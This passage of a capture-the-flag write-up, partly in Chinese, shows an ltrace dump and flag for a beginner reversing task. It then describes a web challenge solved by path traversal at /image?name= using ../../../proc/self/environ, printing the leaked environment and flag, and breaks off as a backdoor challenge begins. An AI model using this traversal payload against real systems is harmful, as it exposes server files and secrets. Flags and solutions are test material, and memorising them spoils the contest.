 ```shell!
)                                                                                       = 32
puts("  ||                         ||"  ||                         ||
)                                                                                       = 32
puts("  ||   The gate remains      ||"  ||   The gate remains      ||
)                                                                                       = 32
puts("  ||       firmly shut.      ||"  ||       firmly shut.      ||
)                                                                                       = 32
puts("  ||                         ||"  ||                         ||
)                                                                                       = 32
puts("  +===========================+"  +===========================+
)                                                                                       = 32
puts("       ||             ||"       ||             ||
)                                                                                              = 25
puts("       ||             ||"       ||             ||
)                                                                                              = 25
puts("       ||             ||"       ||             ||
)                                                                                              = 25
puts("       ||             ||"       ||             ||
)                                                                                              = 25
puts("       ||             ||"       ||             ||
)                                                                                              = 25
puts("       ||             ||"       ||             ||
)                                                                                              = 25
puts("The gatekeeper's voice booms:"The gatekeeper's voice booms:
)                                                                                         = 30
puts("  "Your answer is incorrect. The"...  "Your answer is incorrect. The gate shall remain closed."
)                                                                                   = 60
puts("  "Return when you have decipher"...  "Return when you have deciphered the true key."
)                                                                                   = 50
+++ exited (status 0) +++
```

flag: `TSC{th1s_1s_b4by_r3v3rs3_b4by}`

## Web

### Ave Mujica

發現這題可以在 `/image?name=` Path Traversal 試了很久，在 `../../../proc/self/environ` 找到了 Flag

```
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=acfe70c044b5FLAG=TSC{敬愛爽🍷}LANG=C.UTF-8GPG_KEY=7169605F62C751356D054A26A821E680E5FA6305PYTHON_VERSION=3.12.8PYTHON_SHA256=c909157bb25ec114e5869124cc2a9c4a4d4c1e957ca4ff553f1edc692101154eHOME=/root
```

flag: `TSC{敬愛爽🍷}`

### Be_IDol

檢查之後發現裡面有個後門
